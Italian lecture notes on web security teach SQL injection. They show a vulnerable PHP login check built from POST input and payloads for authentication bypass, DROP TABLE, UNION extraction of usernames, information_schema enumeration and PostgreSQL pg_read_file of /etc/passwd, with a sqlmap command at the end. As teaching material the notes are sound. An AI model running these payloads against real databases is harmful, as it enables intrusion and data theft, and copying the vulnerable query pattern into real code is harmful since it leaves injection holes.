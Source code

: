 ```yaml
---
id: '17'
lezione: "20231123"
title: "Web security - 2"
author: "Sam. K."
keywords: ["sql injection","sql","php", "sql injection payloads", "sql map"]
---
```


<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>
## Materiale
* [Slides](/appunti/assets/docs/web_security.pdf)

# Web security - 2
```sh
docker exec -it <container_name> /bin/sh # per accedere al container con terminale bash
```

## SQL injection
SQL injection è una tecnica di attacco web che permette di bypassare controllo degli accessi, estrarre informazioni dal database oppure di compromettere il database attraverso una iniezione del codice SQL malevolo. 

![SQL injection](assets/images/SQL-Injection.jpg)

Alcuni esempi:    

Questo codice può essere usato per esempio se il server fa un controllo del password come 

```php
$password = $_POST['password'];

$check = query("SELECT * FROM login_tb WHERE password='$password'");

if($check>0) echo 'OK';
```
```sql
-- se uso il seguente input come password, posso bypassare il check
' OR 1=1; -- 
```
```php
query("SELECT * FROM login_tb WHERE password='' OR 1=1; --");
```
Cioè il risultato sarà sempre `TRUE` perché `1=1` è sempre vera, inoltre con `--` viene commentato tutto il resto della riga.

"`--`" SQL comment

Altri esempio:
```sql
SELECT * FROM Products WHERE ProductID = 15; DROP TABLE Suppliers;
SELECT * FROM Orders WHERE OrderID = 16 AND 1=1;
SELECT * FROM Users WHERE Login = 'Admin' -- ' AND Password=' '
```

```sql
SELECT productid,name,price FROM products WHERE Name=' *' UNION SELECT 1, string_agg(username,','), 1 FROM users*
```

Una funzione molto usata di postgres è `string_agg('colonna',' ,')` string aggregate restituisce i risultati della query aggregando tutto in una riga con entry separate con una virgola, l'attaccante pensa sempre che ci sia un `LIMIT 1`.


```sql
select * somethin,somethin from table_name UNION select something,somethin from table_name;
```

`UNION` deve avere delle colonne che hanno la stessa grandezza

```sql
select * from <table_name> order by <col_number>
```

`UNION SELECT 1,NULL,NULL;` per scoprire se la prima colonna è numerico ignorando = `NULL` la colonna 2 e 3, se questa query va a buon fine significa che è una colonna di tipo numerico (intero). Con questo modo si può scoprire che il tipo di colonna oppure se esiste una certa colonna.

## Un modo per scoprire tutte le tabelle e colonne del database.

```sql
select column_name from information_schema.columns  -- all columns 
select table_name from information_schema.tables -- all tables
```

`information_schema` normalmente è protetta con un controllo degli accessi.

[SQL injection payloads](https://github.com/payloadbox/sql-injection-payload-list) una lista di payloads.

```sql
UNION SELECT null,version(),null FROM pg_stat_user_tables -- stampa informazioni tecniche del database

union select null,pg_is_dir('/bin'),null from pg_stat_user_tables -- stampa i file della directory

union select null,pg_read_file('etc/passwd'),null from pg_stat_user_tables -- legge il file
```
## SQL Map
SQLmap un tool per automatizzare il testing di sql injection con una serie di payload
[SQL map](https://github.com/sqlmapproject/sqlmap)

```sh
python3 sqlmap.py -u "url"
```